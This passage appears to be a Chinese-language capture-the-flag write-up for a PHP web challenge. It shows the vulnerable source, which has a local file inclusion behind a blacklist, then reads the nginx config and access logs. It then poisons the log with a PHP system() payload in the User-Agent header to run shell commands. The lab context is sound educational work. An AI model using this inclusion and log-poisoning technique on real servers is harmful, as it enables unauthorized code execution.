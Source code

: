 ```php
<?php
//WEB手要懂得搜索

if(isset($_GET['file'])){
    $file = $_GET['file'];
    if(preg_match("/php|flag|data|\~|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\-|\_|\+|\=/i", $file)){
        die("error");
    }
    include($file);
}else{
    highlight_file(__FILE__);
}
```

2. 查看nginx相关信息

```php
?file=/etc/nginx/nginx.conf
?file=/var/log/nginx/access.log
```

3. 发现下述日志信息

![alt text](images/image-16.png)

4. 我们尝试进行ua头投毒

在ua头中添加

```php
User-Agent: <?php system('ls /'); ?>
```

接着进行发送，我们得到了flag文件的路径

![alt text](images/image-17.png)
